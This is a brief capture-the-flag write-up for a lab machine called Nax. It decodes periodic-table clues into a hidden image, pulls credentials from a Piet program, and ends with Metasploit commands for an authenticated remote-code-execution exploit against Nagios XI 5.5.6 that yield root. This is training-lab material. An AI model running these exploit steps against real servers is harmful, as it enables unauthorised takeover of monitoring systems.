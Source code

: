 # Nax 

### Nax 
The source code of the website shows a directory:<br />
![Screenshot 2025-04-07 152226](https://github.com/user-attachments/assets/8e25f609-d09b-4966-aa88-4ee537e00dc8)<br />
I looked online for default credentials for `nagios xi` or some unauthenticated exploit but didn't find anything. <br />
Next, the main website shows a series of elements from the periodic table. If you look at the number of each chemical element in the periodic table, this list becomes `47 80 73 51 84 46 80 78 103`:<br />
![image](https://github.com/user-attachments/assets/740decb9-7eb1-4e3d-be52-ac694dad0fd5)<br />
So there's a file called `PI3T.PNg`. I download the image and look at the strings of this file:<br />
![image](https://github.com/user-attachments/assets/814af22e-328d-4beb-a3b4-e9a8e254205d)<br />
At this point I followed the hint from the task, and understood that piet is an esoteric language , programs in piet are images. and I then found [this online tool](https://www.bertnase.de/npiet/npiet-execute.php) that was able to extract a set of credentials from the image. Now that I'm logged in I look at the version of nagios xi which is `5.5.6`. There's a metasploit RCE for this version: 

    use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
    set password REDACTED
    set lhost YOUR_IP
    set rhosts TARGET_IP
    run
This is enough to log in as root and get both flags.
